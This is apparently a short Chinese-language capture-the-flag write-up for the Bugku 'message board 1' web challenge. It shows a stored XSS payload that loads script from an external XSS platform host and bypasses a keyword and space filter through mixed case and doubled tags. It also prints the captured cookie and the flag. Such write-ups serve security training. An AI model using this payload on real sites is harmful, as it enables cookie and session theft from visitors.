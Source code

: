 ```yaml
---
title: bugku WEB 留言板1
date: 2023-01-01 16:00 +0800
categories: [CTF,WEB]
tags: [bugku,WEB]
img_path: /assets/images/1.assets
---
```


在xss.pt 注册一个账号，配置XSS

![img](clip_image002.jpg)

![img](clip_image004.jpg)

我们复制srcipt这一条，

```html
<sCRiPt sRC=//xx.xx/xxxx></sCrIpT>
```

我们会发现过滤了script和空格，进行其他代码尝试，会发现 ( ) 括号也进行了过滤

我们有大小写+双写可以过滤srcipt，空格使用反斜杠进行绕过

```html
<sCRisCRiPtPt/sRC=//xx.xx/xxxx></sCrsCrIpTIpT>
```

测试情况

![img](clip_image006.jpg)

 

![img](clip_image008.jpg)

flag=flag%7B3f82f0d1288d080024d1ee51d4499228%7D;

flag{3f82f0d1288d080024d1ee51d4499228}